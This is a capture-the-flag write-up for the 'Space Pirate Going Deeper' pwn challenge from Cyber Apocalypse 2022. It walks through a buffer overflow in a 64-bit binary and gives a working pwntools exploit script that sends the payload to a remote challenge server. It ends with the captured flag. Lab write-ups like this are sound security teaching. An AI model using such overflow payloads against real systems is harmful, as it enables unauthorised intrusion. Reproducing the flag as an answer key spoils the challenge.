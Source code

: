 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Space Pirate Going Deeper Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: pwn
challenge: Space Pirate Going Deeper
tags: "pwn, taz, bof, python"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2022</h1>

## Space Pirate Going Deeper
> Solved by:  Taz34

Here we have a 64 bit binary which takes input as follows:

![](https://i.imgur.com/q2tXif4.png)

After playing around with the binary i came across a Segmentation fault, hence we have a buffer overflow exploit here.

![](https://i.imgur.com/u0IXBic.png)

So I found the offset to be 50. 

Now to understand the working of the binary I opened the binary in Cutter
https://cutter.re/

Here we came across the main function and another interesting function named admin_panel
In the admin_panel function we came across an if statement:

![](https://i.imgur.com/w6r55nM.png)

From here we can understand that, if we want to print the flag i.e. `system(``"``cat flag``"``);`
we need to make the if condition false.

So now we can create the payload

```python
payload = b'A'*offset + ret_addr_main + ret_addr_admin_panel + if_arg1 + if_arg3 + if_arg3
payload = b'A'*50 + p64(0x400b9a) + p64(0x400b46) +p64(0xdeadbeef) + p64(0x1337c0de) + p64(0x1337beef)
```

Now we have our payload set, hence the final script:

```python
from pwn import *
#elf = ELF('./sp_going_deeper')
#p = elf.process()
p = remote("138.68.161.126", 31239) 

payload = b'A'*50 + p64(0x400b9a) + p64(0x400b46) +p64(0xdeadbeef) + p64(0x1337c0de) + p64(0x1337beef)

p.sendline('1')
p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/jgsMkE9.png)


And here the flag is dumped.

```
Flag: HTB{no_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_flow_r3d1r3ct}
```